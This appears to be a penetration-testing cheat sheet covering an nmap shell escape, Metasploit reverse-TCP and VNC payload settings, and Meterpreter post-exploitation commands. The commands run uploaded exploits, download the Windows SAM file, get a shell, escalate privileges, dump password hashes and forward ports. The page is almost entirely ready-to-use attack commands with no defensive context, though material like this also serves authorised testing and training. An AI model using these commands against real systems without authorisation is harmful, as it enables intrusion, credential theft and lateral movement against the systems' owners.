 ### Spawn TTY Shell NMAP

```
!sh
```

## Metasploit Cheat Sheet

A basic metasploit cheat sheet that I have found handy for reference.

Basic Metasploit commands, useful for reference, for pivoting see - [Meterpreter Pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/) techniques.

### Meterpreter Payloads

### Windows reverse meterpreter payload

| COMMAND                                       | DESCRIPTION                 |
| --------------------------------------------- | --------------------------- |
| `set payload windows/meterpreter/reverse_tcp` | Windows reverse tcp payload |

### Windows VNC Meterpreter payload

| COMMAND                                                      | DESCRIPTION                     |
| ------------------------------------------------------------ | ------------------------------- |
| `set payload windows/vncinject/reverse_tcp``set ViewOnly false` | Meterpreter Windows VNC Payload |

### Linux Reverse Meterpreter payload

| COMMAND                                     | DESCRIPTION                       |
| ------------------------------------------- | --------------------------------- |
| `set payload linux/meterpreter/reverse_tcp` | Meterpreter Linux Reverse Payload |

## Meterpreter Cheat Sheet

Useful meterpreter commands.

| COMMAND                                    | DESCRIPTION                                                  |
| ------------------------------------------ | ------------------------------------------------------------ |
| `upload file c:\\windows`                  | Meterpreter upload file to Windows target                    |
| `download c:\\windows\\repair\\sam /tmp`   | Meterpreter download file from Windows target                |
| `download c:\\windows\\repair\\sam /tmp`   | Meterpreter download file from Windows target                |
| `execute -f c:\\windows\temp\exploit.exe`  | Meterpreter run .exe on target - handy for executing uploaded exploits |
| `execute -f cmd -c `                       | Creates new channel with cmd shell                           |
| `ps`                                       | Meterpreter show processes                                   |
| `shell`                                    | Meterpreter get shell on the target                          |
| `getsystem`                                | Meterpreter attempts priviledge escalation the target        |
| `hashdump`                                 | Meterpreter attempts to dump the hashes on the target        |
| `portfwd add –l 3389 –p 3389 –r target`    | Meterpreter create port forward to target machine            |
| `portfwd delete –l 3389 –p 3389 –r target` | Meterpreter delete port forward                              |
